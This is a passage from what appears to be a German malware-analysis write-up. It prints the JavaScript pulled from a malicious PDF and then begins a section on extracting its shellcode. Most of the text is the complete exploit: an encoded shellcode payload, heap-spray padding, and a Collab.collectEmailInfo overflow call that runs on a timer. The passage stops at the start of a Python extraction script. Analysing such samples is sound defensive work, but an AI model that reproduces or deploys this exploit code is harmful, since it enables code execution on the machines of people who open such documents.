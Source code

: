```bash
 b'function re(count,what) \r\n{\r\nvar v = "";\r\nwhile (--count >= 0) \r\nv += what;\r\nreturn v;\r\n} \r\nfunction sopen() \r\n{\r\nsc = unescape("%uc933%ub966%u017c%u1beb%u565e%ufe8b%u66ac%u612d%u6600%ue0c1%u6604%ud08b%u2cac%u6661%uc203%u49aa%uea75%ue8c3%uffe0%uffff%u6666%u6c59%u6d5f%u6459%u6d5f%u6d66%u6466%u6766%u6866%u685d%u6665%u6160%u6262%u6161%u6161%u6161%u6a5f%u6f62%u6261%u6161%u6161%u7059%u6665%u6d60%u6567%u625b%u6164%u6161%u6161%u6161%u6c59%u6165%u6d61%u6c59%u6168%u6d62%u6e5b%u6c59%u6966%u6961%u6a59%u6e66%u6d5f%u6c59%u6e65%u6160%u6c59%u6e68%u6d60%u6266%u6c59%u6665%u6d5f%u6c59%u6168%u6d64%u6c59%u6568%u6761%u6968%u6461%u6160%u6766%u6c59%u6768%u6163%u6461%u6160%u6464%u6a5d%u6a65%u6265%u6e5b%u6461%u6665%u6d5f%u6464%u6c5e%u7061%u6f5c%u6162%u6b64%u675e%u6568%u6961%u625d%u6c5d%u6e61%u6461%u6b5e%u6165%u6c5f%u6260%u6c64%u7062%u6668%u675f%u6f66%u6c59%u6f66%u6563%u6461%u6e66%u6d5f%u6767%u6c59%u6d61%u6c65%u6c59%u6f66%u6d62%u6461%u6e66%u6d5f%u6c59%u6561%u6c59%u6461%u6665%u6d5f%u6c5b%u6a66%u635f%u665c%u6464%u615d%u6a59%u6665%u695f%u6a59%u6665%u655f%u6459%u6665%u655f%u6561%u6b67%u6161%u6c59%u6665%u655f%u6166%u6c59%u6e65%u6d60%u7060%u6266%u6162%u6a59%u6665%u6560%u6459%u6e68%u6560%u7060%u6568%u6e67%u6259%u6e68%u6560%u6161%u6163%u6161%u6161%u6e68%u6361%u6c5f%u6367%u6b67%u6165%u6967%u6161%u6162%u6161%u6161%u6c59%u6666%u6560%u6366%u6b67%u6161%u6c59%u6665%u6d60%u7060%u6166%u6564%u6a59%u6665%u6960%u6b67%u6161%u6b67%u6161%u6b67%u6161%u6c59%u6e65%u655f%u6266%u6c59%u6666%u6d60%u7060%u6366%u6164%u6b67%u6161%u6e59%u6665%u695f%u6166%u6c59%u6e65%u6560%u6266%u6c59%u6666%u6960%u6366%u6c59%u6665%u655f%u6166%u6c59%u6e65%u6d60%u7060%u6266%u6d63%u6c59%u6666%u6960%u6461%u6666%u6560%u6259%u6b68%u6d60%u6667%u7067%u6767%u6b61%u6668%u6361%u6c5f%u6163%u6967%u6161%u6159%u6161%u6161%u6c59%u6665%u6560%u6166%u6c59%u6e65%u6960%u6266%u6c59%u6666%u6d60%u7060%u6366%u6964%u695c%u6261%u6161%u6161%u6161%u6659%u615d%u7061%u6659%u6e67%u7060%u7060%u7060%u6c59%u6668%u6960%u6464%u6a5d%u6265%u6259%u6d64%u6f61%u6667%u7067%u6767%u6b61%u6668%u6760%u6459%u625d%u6561%u6461%u6260%u7060%u6668%u6d60%u7060%u6668%u655f%u7060%u675e%u695f%u6e5e%u6f60%u7060%u7060%u6c60%u685a%u6e60%u7061%u665b%u6862%u6161%u6d68%u6368%u6f60%u645c%u6762%u6f68%u695e%u635f%u6468%u6e5b%u6c5a%u6e68%u705e%u6768%u6e67%u615c%u6665%u6964%u6363%u6d5b%u685f%u6464%u6b5d%u6b59%u6c66%u6f59%u6f65%u6f61%u6d5f%u6b60%u685a%u6361%u6d65%u6760%u6b5f%u6b5c%u6d66%u6762%u6667%u6b60%u6162%u6d5b%u6961%u6b5e%u6768%u6566%u6b5d%u705b%u625a%u6d5b%u6464%u6761%u6461%u695a%u6f60%u6b59%u6f61%u7062%u6a68%u6b61%u695f");\r\nif (app.viewerVersion >= 7.0)\r\n{\r\nplin = re(1124,unescape("%u0b0b%u0028%u06eb%u06eb")) + unescape("%u0b0b%u0028%u0aeb%u0aeb") + unescape("%uFCFC%uFCFC") + re(120,unescape("%u0b0b%u0028%u06eb%u06eb")) + unescape("%uFCFC%uFCFC") + sc + re(1256,unescape("%u6161%u6161"));\r\n} \r\nelse \r\n{\r\nef6 =  unescape("%uf6eb%uf6eb") + unescape("%u0b0b%u0019");\r\nplin = re(80,unescape("%uFCFC%uFCFC")) + sc + re(80,unescape("%uFCFC%uFCFC"))+ unescape("%u17e9%ufffb")+unescape("%uffff%uffff") + unescape("%uf6eb%uf4eb") + unescape("%uf2eb%uf1eb");\r\nwhile ((plin.length % 8) != 0) \r\nplin = unescape("%u6161") + plin;\r\nplin += re(2626,ef6);\r\n}\r\nif (app.viewerVersion >= 6.0)\r\n{\r\nthis.collabStore = Collab.collectEmailInfo({subj: "",msg: plin});\r\n}\r\n}\r\nvar shaft = app.setTimeOut("sopen()",1200);'


```

=> Der JavaScript-Code verwendet `unescape()` und eine Funktion `re()` zum Dekodieren von Shellcode, der in Unicode-Zeichen versteckt ist. Am Ende wird der Code mit `app.setTimeOut("sopen", 1200)` ausgeführt.

## 7. Extraktion des Shellcodes aus JavaScript

Um den Shellcode zu extrahieren, schreiben wir ein Python-Skript, das die `%uXXXX`-Werte in rohe Bytes umwandelt. Das Ergebnis wird in einer Datei `shellcode_extracted.bin` gespeichert.

### Dateiname: `extract_shellcode.py`

```python
import re

# Raw JavaScript shellcode in %uXXXX format
```